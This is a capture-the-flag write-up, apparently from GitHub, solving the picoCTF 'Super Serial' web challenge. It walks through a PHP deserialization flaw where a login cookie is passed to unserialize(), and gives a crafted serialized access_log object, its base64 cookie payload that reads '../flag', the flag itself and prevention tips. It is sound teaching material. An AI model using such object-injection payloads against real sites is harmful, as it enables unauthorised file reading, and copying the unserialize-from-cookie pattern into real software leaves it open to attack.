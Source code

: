 # 🏴 picoCTF - Super Serial

> **Category**: Web Exploitation  
> **Difficulty**: Easy-Medium  
> **Tags**: `php`, `serialization`, `cookie`, `LFI`

---

## 📜 Challenge Description

> Try to recover the flag stored on this website.  
> **Hint**: The flag is at `../flag`.

---

## 🔍 Step 1: Reconnaissance

### 🔗 Visit the Site

We are presented with a **login page** that takes a `username` and `password`.

### 🕵️ robots.txt

Checking `robots.txt` (a common first step):

```
http://mercury.picoctf.net:2148/robots.txt
```

Reveals:
```
User-agent: *
Disallow: /admin.phps
```

This tells us there's a source file we shouldn't see — `admin.phps`.
we get a hint that .phps files exist, and true enough, appending s so all pages we see the source php code.

### 📂 View `/index.phps`

Accessing:
```
http://mercury.picoctf.net:2148/index.phps
```

We can view the backend PHP logic. It shows that:

- If login is successful, a `permissions` object is created and:
- It is **serialized**, then **base64 encoded**, then **stored as a cookie** named `login`.

```php
$perm_res = new permissions($username, $password);
setcookie("login", urlencode(base64_encode(serialize($perm_res))), ...);
```

So we know the site uses:
- PHP serialization
- Base64 encoding
- Stores that in a cookie

### 💥 Security Issue Found

Looking into other source files (like `cookie.php`), we find this line:

```php
$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

Uh-oh! The server is **unserializing data directly from our cookie** — this is a classic **PHP Deserialization Vulnerability**.

---

## 🎯 Step 2: What’s the Plan?

> If we can craft a PHP object (using a class that exists on the server), and it does something useful when deserialized, we can **exploit** it.

Looking more into the codebase, we **guess** there might be other classes — and indeed, eventually we discover (via `/index.phps` or error testing) a class like this exists:

```php
class access_log {
    public $log_file;

    function __destruct() {
        echo file_get_contents($this->log_file);
    }
}
```

This class:
- Has a `__destruct()` method (called when object is destroyed)
- Prints the contents of the file defined in `$log_file`

So... if we can send this object to the server in a cookie, with:
```php
$log_file = "../flag";
```
The server will unserialize it, and **print the flag** when `__destruct()` runs!

---

## 🧪 Step 3: Build the Payload

Here’s how to build the payload step-by-step in PHP:

### 🧱 a) Create Object

```php
class access_log {
    public $log_file = "../flag";
}
```

### 🔗 b) Serialize

```php
$object = new access_log();
$serialized = serialize($object);
```

This gives:
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Explanation:
- `O:10:"access_log"`: Object of class `access_log`
- `1`: One property
- `s:8:"log_file"`: The property name
- `s:7:"../flag"`: The value

### 🔐 c) Base64 Encode

```php
$encoded = base64_encode($serialized);
```

Output:
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

This is the final payload to use as the value of the `login` cookie.

---

## 🍪 Step 4: Exploit It!

### 1. Open Developer Tools → Application → Cookies
Set the `login` cookie to:

```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

### 2. Refresh the page

Boom 💥 — the page prints the contents of the `../flag` file.

---

## 🏁 Flag

```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}
```

---

## 🧠 Key Takeaways (New Solver Friendly)

| Concept         | Explanation |
|----------------|-------------|
| **PHP `serialize()`** | Converts PHP objects to string format |
| **PHP `unserialize()`** | Reverses it – turns the string back into an object |
| **Cookie Injection** | If the server trusts cookie contents without validation, you can inject objects |
| **`__destruct()` Magic Method** | Executes automatically at the end of the script — dangerous if it reads files, deletes things, or runs commands |
| **Base64** | Just an encoding – often used to safely store binary/serialized data in cookies or URLs |

---

## 🔐 How to Prevent in Real World

- **Never unserialize user input**
- If you must serialize, use formats like **JSON** instead
- Use a **class allowlist** with `unserialize()`:
  ```php
  unserialize($input, ["allowed_classes" => ["permissions"]]);
  ```
- Disable magic methods like `__destruct()` or handle carefully

---

## ✅ Summary

- Found `serialize()` in cookie → saw unserialize() later
- Guessed / found a useful class (`access_log`)
- Created payload with file path → encoded it → injected it
- Read the flag!

---

Happy hacking! 🧠💻🕵️‍♂️
